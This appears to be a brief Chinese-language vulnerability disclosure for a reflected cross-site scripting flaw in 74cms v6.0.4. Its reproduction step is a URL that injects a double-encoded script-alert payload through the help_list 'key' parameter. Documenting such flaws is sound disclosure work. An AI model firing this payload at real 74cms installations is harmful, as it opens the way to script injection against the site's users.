 ## 74cms v6.0.4 反射型xss

### 漏洞影响

74cms v6.0.4

### 复现过程

`http://url/index.php?m=&c=help&a=help_list&key=137244gq1lw%253cscript%253ealert%25281%2529%253c%252fscript%253edutvxlqd4lq&__hash__=d7aa5a382f14d270c3ac4de8392b4e1d_a34adb2b339972672eb447276f69ee88`